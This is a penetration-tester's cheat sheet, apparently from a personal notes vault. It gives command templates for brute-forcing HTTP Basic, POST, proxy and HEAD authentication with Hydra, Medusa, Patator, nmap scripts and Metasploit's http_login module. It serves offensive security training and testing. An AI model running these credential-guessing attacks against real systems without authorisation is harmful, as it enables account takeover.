# 04 - Brute Force

## 01 - HTTP Basic Authentication

### 1.1 - `GET` HTTP Method

#### 1.1.1 - [[03 - Offensive Infrastructure/E - Setup Machine/0x02 - Offensive Tools/Password Cracking/Online/Hydra|Hydra]]

```
$ hydra -L users.lst -P passwords.lst http[s]-get <IP> [-s <PORT>]

$ hydra -L users.lst -P passwords.lst http[s]-get://<IP>:[<PORT>][/path/to/URI]
```

#### 1.1.2 - Medusa

```
$ medusa -H <IP> -U users.lst -P passwords.lst -M http [-m DIR:/path/to/URI]
```

#### 1.1.3 - Patator

```
$ patator http_fuzz method=GET url=<URL> 0=passwords.lst header="Cookie: <cookie_session>" --threads=2 timeout=15 -x quit:fgrep!='<Error_message_response>',clen!='-1'
```

#### 1.1.4 - Network Mapper

Brute force HTTP realm.

```
$ nmap -p 80,443,8000,8080,8443 --script http-brute --script-args http.useragent='<user_agent>' <IP>
```

#### 1.1.5 - Metasploit

```
msf > use auxiliary/scanner/http/http_login

msf auxiliary(scanner/http/http_login) > options

Module options (auxiliary/scanner/http/http_login):

   Name              Current Setting                                                           Required  Description
   ----              ---------------                                                           --------  -----------
   ANONYMOUS_LOGIN   false                                                                     yes       Attempt to login with a blank username and password
   AUTH_URI                                                                                    no        The URI to authenticate against (default:auto)
   BLANK_PASSWORDS   false                                                                     no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                         yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                     no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                     no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                     no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                                      no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                     no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: sapni, socks4, socks5, http, socks5h
   REQUESTTYPE       GET                                                                       no        Use HTTP-GET or HTTP-PUT for Digest-Auth, PROPFIND for WebDAV (default:GET)
   RHOSTS                                                                                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             80                                                                        yes       The target port (TCP)
   SSL               false                                                                     no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                                     yes       Stop guessing when a credential works for a host
   THREADS           1                                                                         yes       The number of concurrent threads (max one per host)
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/http_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                     no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/http_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                      yes       Whether to print output for all attempts
   VHOST                                                                                       no        HTTP server virtual host

msf auxiliary(scanner/http/http_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/http_default_users.txt

msf auxiliary(scanner/http/http_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt

msf auxiliary(scanner/http/http_login) > set requesttype <GET | HTTP-GET | HTTP-PUT | PROPFIND>

msf auxiliary(scanner/http/http_login) > set threads 4

msf auxiliary(scanner/http/http_login) > run rhosts=<IP> rport=<PORT>
```

### 1.2 - `POST` HTTP Method

```
$ hydra -L users.txt -P passwords.txt http[s]-post <IP>[:<PORT>][/path/to/URI]

$ hydra -L users.txt -P passwords.txt http[s]-post://<IP>[:<PORT>][/path/to/URI]
```

## 02 - `PROXY`

### 2.1 - HTTP Method

#### 2.1.1 - [[03 - Offensive Infrastructure/E - Setup Machine/0x02 - Offensive Tools/Password Cracking/Online/Hydra|Hydra]]

```
$ hydra -L users.lst -P passwords.lst http-proxy://<IP>:[<PORT>][/path/to/URI]
```

#### 2.1.2 - Network Mapper

Brute force HTTP proxy server.

```
$ nmap -p 80,443,8000,8080,8443 --script http-proxy-brute --script-args http.useragent='<user_agent>' <IP>
```

### 2.2 - PROXY URLEnum HTTP Method

```
$ hydra -L users.lst -P passwords.lst http-proxy-urlenum://<IP>:[<PORT>][/path/to/URI]
```

## 03 - `HEAD` HTTP Method

```
$ hydra -L users.lst -P passwords.lst http[s]-head://<IP>:[<PORT>][/path/to/URI]
```

---
## References

### Backlinks

- [[Authentication Methods]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x03 - Bypass Webapp Security/Web Application Firewall (WAF)/Helpers/User Agents]]

### Hacking Articles

- [Hacking Articles: Nmap for Pentester Password Cracking](https://www.hackingarticles.in/nmap-for-pentester-password-cracking/)

### Ethical hacking and penetration testing

- [Ethical hacking and penetration testing: How to hack HTTP Basic and Digest Authentication](https://miloserdov.org/?p=5303)

### Penetration Testing Tools

- [Penetration Testing Tools: Medusa](https://en.kali.tools/?p=200)

### Manraj Bansal

- [Manraj Bansal: How to use Hydra to brute force login forms](https://www.manrajbansal.com/post/how-to-use-hydra-to-brute-force-login-forms)